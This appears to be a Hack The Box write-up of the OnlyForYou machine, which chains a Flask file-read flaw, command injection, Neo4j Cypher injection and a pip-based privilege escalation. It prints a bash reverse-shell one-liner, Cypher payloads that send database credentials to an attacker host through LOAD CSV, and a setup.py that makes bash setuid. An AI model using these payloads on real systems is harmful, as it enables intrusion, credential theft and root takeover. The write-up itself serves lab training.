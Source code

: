 🚩 Hack The Box – OnlyForYou (10.10.11.210)

Category: Medium | Tech Stack: Python Flask, Neo4j, pip | Vulns: LFR, RCE, Cypher Injection, pip-based PrivEsc

🚩 Hack The Box – OnlyForYou (10.10.11.210)

Category: Medium | Tech Stack: Python Flask, Neo4j, pip | Vulns: LFR, RCE, Cypher Injection, pip-based PrivEsc
Author: Paraphrased by tahahfatima
🧠 Summary

The OnlyForYou HTB box presented a fascinating blend of web exploitation and privilege escalation, exploiting both misconfigurations and language-specific flaws:

    ✅ Local File Read via bypassing flawed validation in a Flask app

    💥 Remote Code Execution through command injection in form.py

    🧩 Cypher Injection against Neo4j (Graph DB) to exfiltrate credentials

    🐍 pip Download Code Execution to escalate to root

🔍 Recon & Enumeration

Initial scan revealed only:

22/tcp  Open   ssh
80/tcp  Open   http

Accessing port 80 revealed a basic web application. Using ffuf to brute-force subdomains led to discovery of an admin panel.
🔎 Source Code Review

The app allowed image downloads, implemented using Flask's /download route:

@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    ...
    return send_file(filename, as_attachment=True)

The checks for ".." could be bypassed by providing an absolute path (e.g., /etc/nginx/nginx.conf). This led to LFR.
⚠️ Local File Read ➤ RCE

Reading app.py revealed it imports and uses a function from form.py:

result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)

This command directly includes user input in a shell string, enabling command injection. Exploited by providing a reverse shell payload:

bash -i >& /dev/tcp/10.10.14.74/4444 0>&1

Gained initial foothold as john.
🧪 Post-Exploitation & Port Forwarding

Used ss -tulwn to find services on ports 8001 and 3000. Forwarded them via chisel.

Logged into a web interface (admin:admin) where the app displayed a migration task involving Neo4j.
🧠 Neo4j Cypher Injection (Graph DB)

Discovered injectable Cypher queries. Exploited them to extract internal DB info using an SSRF-like technique (exfiltration via LOAD CSV FROM):

Get DB version, name, edition:

' OR 1=1 WITH 1 as a 
CALL dbms.components() YIELD name, versions, edition 
UNWIND versions as version 
LOAD CSV FROM 'http://10.10.14.92/?v=' + version + '&n=' + name + '&e=' + edition AS l RETURN 0//

Dump usernames & hashes:

' OR 1=1 WITH 1 as a 
MATCH (u:user) UNWIND keys(u) as p 
LOAD CSV FROM 'http://10.10.14.191:8000/?' + p + '=' + toString(u[p]) AS l RETURN 0//

Cracked john’s password using john against dumped hashes. Retrieved the user flag.
🔝 Privilege Escalation – pip-based Code Execution

Discovered john could run the following as root without password:

sudo /usr/bin/pip3 download http://127.0.0.1:3000/<malicious>.tar.gz

🧪 Created a malicious Python package that runs a root shell on install:

# setup.py payload example
from setuptools import setup
import os
os.system('chmod +s /bin/bash')
setup(name='exploitpy', version='0.0.1', packages=['exploitpy'])

📦 Uploaded .tar.gz to local file server, then executed with:

sudo /usr/bin/pip3 download http://127.0.0.1:3000/exploitpy-0.0.1.tar.gz

Got root shell. 🎯
🏁 Flags

    ✅ user.txt – Acquired via hash cracking

    ✅ root.txt – Retrieved after pip3 privilege escalation
